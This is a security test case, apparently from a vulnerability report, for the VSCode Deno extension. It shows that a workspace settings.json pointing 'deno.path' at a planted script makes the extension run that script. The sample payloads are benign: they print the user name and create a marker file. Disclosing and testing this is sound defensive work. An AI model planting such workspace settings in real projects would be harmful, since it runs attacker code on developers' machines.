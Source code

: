 - Security Test Case:
    1. **Prerequisites:**
        - Ensure you have a development environment set up for VSCode extension development (Node.js, VSCode, `vsce` CLI).
        - Have the VSCode Deno extension source code available locally.
    2. **Create Malicious Executable:**
        - Create a new file named `malicious-deno.sh` (or `malicious-deno.bat` for Windows) in a temporary directory (e.g., `/tmp` or `C:\temp`).
        - Add the following content to `malicious-deno.sh`:
            ```bash
            #!/bin/bash
            echo "[VULNERABILITY TEST] Malicious Deno Executable Executed!"
            echo "[VULNERABILITY TEST] Current user: $(whoami)"
            # Optionally, perform a more harmful action for testing purposes, e.g., create a file:
            touch /tmp/vulnerability_test_success.txt
            exit 1 # Exit with an error code to simulate a broken Deno CLI if needed
            ```
        - For `malicious-deno.bat`:
            ```batch
            @echo off
            echo [VULNERABILITY TEST] Malicious Deno Executable Executed!
            echo "[VULNERABILITY TEST] Current user: %USERNAME%
            REM Optionally, perform a more harmful action for testing purposes, e.g., create a file:
            type nul > C:\temp\vulnerability_test_success.txt
            exit 1
            ```
        - Make the script executable: `chmod +x /tmp/malicious-deno.sh` (for Linux/macOS).
    3. **Create Malicious Workspace:**
        - Create a new empty directory to serve as your VSCode workspace (e.g., `test-workspace`).
        - Inside `test-workspace`, create a `.vscode` directory.
        - Inside `.vscode`, create a `settings.json` file.
        - Add the following JSON content to `settings.json`, adjusting the path to your malicious executable:
            ```json
            {
                "deno.path": "/tmp/malicious-deno.sh" // or "C:\\temp\\malicious-deno.bat" for Windows
            }
            ```
        - Create a dummy Deno file (e.g., `main.ts`) in the `test-workspace` root:
            ```typescript
            console.log("Hello, Deno!");
            ```
    4. **Test in VSCode:**
        - Open VSCode and open the `test-workspace` folder.
        - Ensure the Deno extension is enabled for this workspace (it might prompt you to enable it, click "Yes"). If not prompted, manually enable it using the "Deno: Enable" command.
        - Observe the VSCode output panel (or create a dedicated output channel for the Deno extension if needed for better visibility).
        - Trigger any Deno extension feature that uses the Deno CLI. For instance, try formatting `main.ts` (right-click in the editor, "Format Document With...", choose "Deno"). Or, simply wait for the language server to initialize, which often triggers Deno CLI execution. Alternatively, enable the Deno extension by running the "Deno: Enable" command from the command palette (Ctrl+Shift+P or Cmd+Shift+P) after setting the malicious path in settings.
    5. **Verification:**
        - Check the VSCode output panel. You should see the output from your malicious script, including "[VULNERABILITY TEST] Malicious Deno Executable Executed!" and the current user.
        - If you included the optional file creation command in your malicious script, check if the file `/tmp/vulnerability_test_success.txt` (or `C:\temp\vulnerability_test_success.txt` on Windows) was created.
        - This confirms that the malicious executable specified in `deno.path` was executed by the VSCode Deno extension, demonstrating the arbitrary code execution vulnerability.